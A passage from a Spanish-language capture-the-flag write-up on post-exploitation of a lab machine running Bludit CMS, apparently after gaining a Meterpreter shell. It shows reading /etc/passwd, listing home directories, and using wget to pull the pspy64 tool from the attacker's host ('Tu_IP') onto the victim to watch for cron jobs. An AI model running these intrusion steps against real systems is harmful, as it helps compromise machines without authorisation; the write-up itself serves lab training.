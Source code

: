 Aunque no sé si la sesión de **Meterpreter** sea estable, si no lo es, podemos cambiar el payload.


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="enumLin">Enumeración de la Máquina Víctima y Enumeración de Archivos del CMS Bludit</h2>

Si revisamos el `/etc/passwd`, encontraremos un par de usuarios registrados y que parece que está instalado **MySQL**:
```bash
www-data@JaulaCon2025:/var/www/html/bl-content$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
...
...
...
debian:x:1000:1000:debian,,,:/home/debian:/bin/bash
mysql:x:102:110:MySQL Server,,,:/nonexistent:/bin/false
JaulaCon2025:x:1001:1001::/home/JaulaCon2025:/bin/bash
```

Y revisando el directorio `/home`, encontraremos a los usuarios:
```bash
www-data@JaulaCon2025:/home$ ls -la
total 16
drwxr-xr-x  4 root         root         4096 Mar 25 19:42 .
drwxr-xr-x 18 root         root         4096 Oct 16 12:55 ..
drwxr-xr-x  2 JaulaCon2025 JaulaCon2025 4096 Mar 26 12:00 JaulaCon2025
drwx------  2 debian       debian       4096 Oct 16 13:00 debian
```
Pero no podremos ver el contenido de ninguno de los dos.

De ahí en fuera, no encontramos nada más.

Intente ejecutar **linpeas.sh**, pero no funciono bien, así que mejor ejecute **pspy64** para ver si hay alguna **tarea CRON** ejecutándose.

Puedes descargar **pspy64** de aquí:
* <a href="https://github.com/DominicBreuker/pspy" target="_blank">Repositorio de DominicBreuker: pspy</a>

Y lo puedes pasar abriendo un **servidor de Python** en tu máquina y luego usando **wget** en la máquina víctima:
```bash
www-data@JaulaCon2025:/tmp$ wget http://Tu_IP/pspy64
--2025-04-11 23:38:33--  http://Tu_IP/pspy64
Connecting to Tu_IP:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: 'pspy64'

pspy64       100%[===================>]   2.96M  --.-KB/s    in 0.05s   

2025-04-11 23:38:33 (53.9 MB/s) - 'pspy64' saved [3104768/3104768]
```

